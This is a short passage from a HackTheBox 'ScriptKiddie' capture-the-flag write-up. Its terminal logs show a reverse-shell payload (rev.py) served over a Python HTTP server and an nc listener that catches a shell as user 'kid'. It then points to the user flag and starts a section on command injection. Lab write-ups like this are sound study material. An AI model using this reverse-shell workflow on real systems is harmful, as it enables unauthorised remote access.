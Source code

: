 ```terminal
$ python -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.226 - - [03/Mar/2021 18:12:52] "GET /rev.py HTTP/1.1" 200 -
----------------------------------------------------------------------

$ nc -nvlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.226.
Ncat: Connection from 10.10.10.226:50220.
kid@scriptkiddie:~/html$ id
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

![Upload](/assets/posts/ctf/hackthebox/machines/scriptkiddie/img/kid.png)
_Managed to obtain reverse shell_

User flag can be found in `/home/kid/user.txt`.

---

# Post Exploitation

---

## [USER: pwn] -> OS command injection via vulnerable bash code in scanlosers.sh
 
